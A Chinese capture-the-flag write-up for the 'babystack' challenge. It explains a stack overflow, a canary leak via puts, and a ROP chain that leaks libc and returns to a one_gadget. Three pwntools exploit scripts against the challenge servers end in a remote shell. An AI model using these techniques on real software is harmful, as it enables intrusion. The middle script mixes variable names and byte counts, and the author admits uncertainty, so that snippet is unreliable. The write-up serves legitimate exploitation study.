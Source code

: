 # pwn1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=38dbb74d-2134-4fba-85c1-2fd69db11191_2&task_category_id=2)

我的电脑既无法运行elf，也无法安装虚拟机；另一个shell可以运行elf也能用pwntools，但是无法连上官方的nc地址……两个卧龙凤雏怎么聚在一起了。所以就剖析[writeup](https://bbs.pediy.com/thread-254373.htm)好了。

当然自己能做的还是会做着试试的。ghidra反编译程序再找到main函数。

![main](../../images/_main_.png)

运行就是简单的打印内容程序。

![print](../../images/print.png)

checksec如下。

-   Arch:     amd64-64-little
    <br>RELRO:    Full RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)


64位小端，老朋友canary又来了。分析一下main函数看看采取什么行动。第30行明显栈溢出，local_98就136字节长，read直接读取256个字节。栈溢出首先想到改写返回地址到system这类的函数中，但是canary很烦。canary为local_10,需要想个办法猜出canary的地址。

canary可以爆破，但此处有更简单的办法。注意18，19行。当我们选择2选项时,程序会使用puts打印出local_98的全部内容。

- ### puts
  > 把一个字符串写入到标准输出 stdout，直到空字符（'\0'），但不包括空字符。换行符会被追加到输出中。
  - 声明：int puts(const char *str)
  - 参数：str -- 这是要被写入的 C 字符串。

正常存储字符串末尾肯定会有\0，但我们就是不能正常。这里可以栈溢出，canary又和local_98挨着。想到了啥？我们可以计算local_98和canary之间的偏移，也就是0x88，然后填过去。等puts打印字符串时会从local_98的字符一直打印到canary，因为中间的空字符没了。目前泄漏canary的exp如下。

```python
from pwn import *
proc=remote("61.147.171.105",56381)
payload=b'a'*0x88
proc.sendlineafter(">> ",'1')
proc.sendline(payload)
proc.sendlineafter(">> ",'2')
proc.recvuntil(b'a'*0x88+b'\n')
canary=u64(proc.recv(7).rjust(8,b'\x00'))
```

64位程序应该是8位啊，怎么这里只接收了7位？因为sendline会在payload后面补上一个回车，也就是\n。\n当然也算在我们的输入内，正是这个\n，覆盖掉了canary自己的\0（别忘了canary是以小端正常存储的，末尾还有个\0），让puts得以把canary也包进来。所以canary的最后一位没有用，接收7位然后rjust对齐就行了。

接下来就要考虑返回到哪个函数了。搜索程序本身，既没有system也没有/bin/sh。又到了rop的时刻。给了libc，开始找偏移。一般用的是puts这个好朋友，因为puts只有一个参数，用起来很简单。64位传参就不像32位一样一股脑往栈上塞了。当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。puts的一个参数要放到rdi里。用ROPgadget找一下心仪的的gadget。

- ROPgadget --binary babystack --only "pop|ret" | grep 'rdi'
  > 0x0000000000400a93 : pop rdi ; ret

这个不错，完美符合要求。我们的脚本变成了这样：

```python
from pwn import *
elf = ELF("./babystack")
proc=remote("61.147.171.105",56381)
payload=b'a'*0x88
proc.sendlineafter(">> ",'1')
proc.sendline(payload)
proc.sendlineafter(">> ",'2')
proc.recvuntil(b'a'*0x88+b'\n')
canary=u64(proc.recv(8).rjust(8,b'\x00'))
pop_rdi=0x0400a93
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = 0x400908
payload1 = b'a'*0x88+p64(canary)+b'a'*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendlineafter(">> ","1")
p.send(payload1)
p.sendlineafter(">> ","3")
puts_addr=u64(p.recv(8).ljust(8,'\x00'))
```

理解一下payload1的rop链构成（可能不对，如果错了请帮我指出，我一直懵rop链）。b'a'\*0x88+p64(canary)+b'a'*8就是0x88个垃圾字符+之前泄露的canary+没啥用的rbp+操控参数的pop_rdi gadget+传入puts got地址作为参数+调用puts+将main作为返回地址方便下次利用漏洞。

pop是出栈指令，把 ESP 指向的堆栈元素内容复制到一个 16 位或 32 位目的操作数中，再增加 ESP 的值。这里pop rdi就相当于把后面跟着的puts_got地址放进了rdi里，这样就能成功调用puts了。或许放张图更好理解。

![stack](/笔记/images/271644419475745.jpeg)


我们在栈上搞的一堆rop链是往下增长的。另外这张图是32位的，所以对应到64位的Argument of Next Callee Function处是我们的pop rdi语句。现在应该可以理解这个rop链了。

关于为啥要传puts_got，只需要简略理解puts_got在运行时指向了libc中puts的地址，也就是我们的目标；puts_plt可以调用到puts。这就涉及到plt和got表了，我也不是很懂所以就靠你自己去搜了。

拿到puts真实地址就可以开始计算偏移了。虽然libc的地址会随机变化，但里面的标志无论何时偏移都是一样的。算偏移可以用pwntools自带的ELF加载libc，或者运行一次exp打印出来地址然后放到在线libc库搜索。

最后一步决定往哪返回。上面的教程找到了libc中的一个one_gadget，也就是直接带你调用execve('/bin/sh', NULL, NULL)的gadget。[one_gadget](https://github.com/david942j/one_gadget)其实是个工具，就是帮你找这种gadget的。放出来最终payload。（直接用别人的了，到这一步我没法做了）

```python
from pwn import *
context.arch = "amd64"
context.log_level = "debug"
 
elf = ELF("./babystack")
p = remote('111.198.29.45','45381')
#p = process("./babystack")
libc = ELF("./libc-2.23.so")
 
execve = 0x45216
main_addr = 0x400908
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
pop_rdi = 0x0400a93
 
payload = 'a'*0x88
p.sendlineafter(">> ","1")
p.sendline(payload)
 
p.sendlineafter(">> ","2")
p.recvuntil('a'*0x88+'\n')
 
canary = u64(p.recv(7).rjust(8,'\x00'))
 
payload1 = 'a'*0x88+p64(canary)+'a'*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
 
p.sendlineafter(">> ","1")
p.send(payload1)
p.sendlineafter(">> ","3")
puts_addr=u64(p.recv(8).ljust(8,'\x00'))
 
execve_addr = puts_addr - (libc.symbols['puts'] - execve)
 
payload2 = 'a'*0x88+p64(canary)+'a'*8 + p64(execve_addr)
 
p.sendlineafter(">> ","1")
p.sendline(payload2)
p.sendlineafter(">> ","3")
p.interactive()
```

当然用普通方法在libc里找/bin/sh再调用system也是可以的。具体[看这](https://blog.csdn.net/Y_peak/article/details/114234059)。原理只要你看懂第一个rop链就能懂了。

我也不知道我怎么做到既无法做题也不懂的情况下扯这么多的。